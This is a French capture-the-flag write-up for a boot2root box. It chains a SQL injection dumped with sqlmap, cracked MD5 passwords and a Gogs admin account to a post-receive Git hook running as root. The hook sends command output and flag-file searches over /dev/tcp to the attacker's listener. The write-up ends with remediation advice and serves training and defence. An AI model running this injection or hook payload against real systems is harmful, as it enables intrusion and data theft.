






> Compétition : **brCTF**

## Informations

- **Catégorie :** Boot2Root (Basic, Rootable, Timed)
- **Points :** 160
- **Auteur du write-up :** 3ch0
- **IP cible :** variable (box « Timed », redéployée — 10.0.10.x)

| Flag | Valeur |
|------|--------|
| **Root** | `ETSCTF_3203e5c530be067ed1e4591a2118745e` |

> **Énoncé :** *The betrayal was hiding in plain sight.* (« Judas » = le traître — un secret caché à la vue de tous.)

---

## 1. Reconnaissance

```bash
nmap -sC -sV <IP>
```

```text
22/tcp    open  ssh      OpenSSH (Debian)
80/tcp    open  http     nginx 1.18.0   (AXISWATCH — PHP)
3000/tcp  open  http     Gogs (self-hosted Git)
```

- **80** : site « AXISWATCH » (template templatemo) avec une page custom **`login.php`** (OPERATOR LOGIN).
- **3000** : **Gogs** — un service Git auto-hébergé, avec un utilisateur `a.gogs` (rôle *gogs-admin*).



---

## 2. SQL injection sur `login.php`

Le login custom est injectable. Un `' OR 1=1 -- ` casse la requête et révèle une erreur SQL error-based :

```
DB ERROR: SQLSTATE[42000]: ... near 'passwoed')' at line 1
```

La requête enveloppe les conditions entre parenthèses. On laisse **sqlmap** exploiter l'injection :

```bash
sqlmap -u "http://<IP>/login.php" --data="username=test&password=test" \
  -p username --batch --dbs --dump
```

- Injection confirmée (boolean/error/stacked/time/UNION, 5 colonnes), DBMS **MariaDB**, base **`axiswatch`**.
- Table `users` dumpée → **7 comptes**, hashs MD5 crackés automatiquement :

| username | password | rôle |
|----------|----------|------|
| admin | iloveyou | admin |
| **a.gogs** | **`******`** | **gogs-admin** |
| jcrawford | 999999999 | active |
| mharris | *love* | hr |
| eowusu | princess* | operator |
| sysmon | 1a2b3c4d5e | operator |
| rbower | teamarex100pre | administrator |

> La réutilisation de ces mots de passe en SSH échoue. Le compte qui compte, c'est **`a.gogs`** (gogs-admin) — le pont vers le service Git.



---

## 3. Gogs — accès admin

On se connecte à Gogs (port 3000) avec **`a.gogs` / `******`**. Ce compte est **administrateur Gogs**. Le panneau de config (`/admin/config`) livre le détail décisif :

```
Run user:        root
Repository root: /root/gogs-repositories
```

> **Gogs tourne en `root`.** Toute exécution de code déclenchée via Gogs s'exécutera donc **en root** — c'est la « trahison cachée à la vue de tous » (un service Git lancé en root).

---

## 4. RCE root via Git Hooks

Gogs permet à l'admin/propriétaire d'un dépôt de définir des **hooks Git côté serveur**. Un hook `post-receive` est un script shell exécuté à chaque push — ici **en root**.

1. **Créer un dépôt** (`New Repository`, avec README pour avoir une branche).
2. **Dépôt → Settings → Git Hooks → `post-receive`** — on y place une charge qui exfiltre directement le résultat vers notre écoute (one-shot, robuste face au reset de la box « Timed ») :

```bash
#!/bin/bash
exec 3<>/dev/tcp/10.10.0.230/4444
{ id; echo "---/root---"; ls -la /root; echo "---FLAG---"; \
  cat /root/*root* /root/flag* /root/ETSCTF* 2>/dev/null; \
  find / \( -iname 'ETSCTF*' -o -iname '*flag*' \) 2>/dev/null | grep -v proc; } >&3
exec 3>&-
```





3. **Écoute** côté attaquant :

```bash
nc -lvnp 4444
```

4. **Déclencher** : éditer le README via l'interface web → *Commit* → le `post-receive` s'exécute.



Résultat reçu instantanément :

```text
uid=0(root) gid=0(root) groups=0(root)
---/root---
drwx------ 1 root root 4096 ... .
-rw-r--r-- 1 root root    0 ... ETSCTF_3203e5c530be067ed1e4591a2118745e
drwxr-xr-x 1 root root 4096 ... gogs-repositories
---FLAG---
/root/ETSCTF_3203e5c530be067ed1e4591a2118745e
```

Le flag est un **fichier vide** dans `/root` : c'est son **nom** qui porte le flag.



**Flag :** `ETSCTF_3203e5c530be067ed1e4591a2118745e`

---

## Récapitulatif de la chaîne d'exploitation

1. **Recon** → web PHP (login.php) + **Gogs** (port 3000).
2. **SQLi** sur `login.php` → dump de `axiswatch.users` → creds + le compte **gogs-admin** `a.gogs`.
3. **Gogs admin** → config révèle **Run user = root**.
4. **Git Hook `post-receive`** (exécuté en root) → RCE root → flag.

> **Concepts clés :**
>> - **Git-as-a-service lancé en root** : la « trahison ». Gogs/Gitea ne doivent **jamais** tourner en root — un admin (ou un compte compromis) peut poser un hook serveur et obtenir une RCE avec les privilèges du service. Ici root = root système direct.
>
> **Remédiation :** requêtes préparées côté `login.php` ; ne pas réutiliser/stocker des mots de passe faibles en MD5 ; faire tourner Gogs sous un compte de service dédié non privilégié ; restreindre la création de hooks.

---

***— 3ch0***
